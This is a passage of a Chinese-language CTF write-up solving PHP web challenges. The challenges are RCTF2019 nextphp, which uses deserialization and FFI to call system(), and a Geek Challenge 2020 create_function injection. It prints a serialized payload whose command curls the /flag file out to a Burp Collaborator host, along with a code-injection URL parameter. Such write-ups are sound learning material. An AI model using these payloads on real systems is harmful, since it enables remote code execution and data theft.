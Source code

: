 ```php

    public function __construct () {
        echo 'start'.'</br>';
    }
}

$a = new A();
echo base64_encode(serialize($a));
```

随后在传入的地方执行`unserialize(base64_decode(payload))->__serialize()['ret']->system(command);`，直接curl外带flag

```
?a=unserialize(base64_decode(QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319))->__serialize()['ret']->system("curl -d @/flag http://fm56ifsleqz363dh864mlhvtzk5atz.burpcollaborator.net");
```

![image-20211202223140032](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211202223140032.png)

————在这个题出现之后蚁剑还专门出了对应的插件

![image-20211202223257130](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211202223257130.png)

但是多次尝试失败，之后看到了这个[wp](https://mochazz.github.io/2019/05/21/RCTF2019Web%E9%A2%98%E8%A7%A3%E4%B9%8Bnextphp/#nextphp)之后再看[官方文档](https://wiki.php.net/rfc/ffi)还有[这一篇](https://www.laruence.com/2020/03/11/5475.html)就明白了

![image-20211202223422195](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211202223422195.png)

默认情况下FFI只会被用于CLI模式下&预加载php脚本，除非设置`ffi.enable=true`，设置之后在webshell就可以直接用蚁剑插件了

### [极客大挑战 2020]Roamphp5-FighterFightsInvincibly

![image-20211204173057497](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211204173057497.png)

很漂亮的前端，看页面源码有注释的提示

![image-20211204173130852](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211204173130852.png)

这个形式，真的是一眼`create_function()`了，看一下phpinfo()，用的还是`create_function()`的注入

```
?fighter=create_function&fights=&invincibly=;}phpinfo();/*
```

看下disable_function

```
```
